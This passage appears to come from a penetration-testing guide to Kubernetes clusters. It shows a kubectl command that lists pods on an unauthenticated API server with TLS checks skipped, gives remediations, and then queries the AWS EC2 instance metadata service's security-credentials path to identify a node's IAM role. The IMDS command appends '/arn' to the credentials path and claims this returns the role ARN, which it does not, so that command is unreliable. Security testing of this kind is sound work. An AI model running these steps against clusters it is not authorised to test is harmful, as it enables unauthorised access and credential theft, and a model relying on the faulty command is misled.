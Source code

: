 **Exploitation:**

```bash
# List all pods in the default namespace.  Note: this is for demonstration purposes only. Actions like deletion can be performed depending on the RBAC roles.
kubectl get pods -n default --insecure-skip-tls-verify=true -s https://<kubernetes_api_server_address>

# Explanation:
# This command uses kubectl to list all pods in the default namespace of the target cluster.
# -n default: Specifies the default namespace.
# --insecure-skip-tls-verify=true: Skips TLS certificate verification (necessary if the API server's certificate is invalid or self-signed).  This SHOULD NOT be used in production.
# -s <kubernetes_api_server_address>: Specifies the API server address.
# Why:
# Demonstrates the ability to interact with the cluster's resources via the API server.  Successful output confirms the exploitable nature of the unauthenticated API server.

# Expected Output:
# A table listing all pods in the default namespace, along with their status and other information.

# Contributing to Exploitation:
# This confirms that an attacker can query the state of the cluster without authentication. Further actions like creating/deleting pods are possible if the default service account has sufficient permissions.
```

**Remediation:**

*   Enable authentication for the Kubernetes API server.
*   Implement robust RBAC policies to restrict access to cluster resources.
*   Consider using a private API endpoint or a VPN to restrict access to the API server from the public internet.

### 2.2. Exploiting Weak IAM Roles on Nodes (AWS EKS Example)

**Validation:**

```bash
# (Assumes you are on an EC2 instance acting as a Kubernetes node)
# Retrieve the instance metadata role
ROLE_ARN=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials | awk '{print $1}')/arn)
echo "Role ARN: $ROLE_ARN"

# Explanation:
# This command retrieves the ARN (Amazon Resource Name) of the IAM role assigned to the current EC2 instance acting as a Kubernetes node.
# It uses the EC2 instance metadata service to obtain the role information.
# Why:
# To determine the IAM role associated with the node, which may have excessive permissions.

# Expected Output:
# The ARN of the IAM role, e.g., arn:aws:iam::123456789012:role/eksctl-mycluster-nodegroup-NodeInstanceRole-ABCDEFG12345

# Contributing to Validation:
# Identifies the IAM role that needs to be assessed for excessive permissions.
```
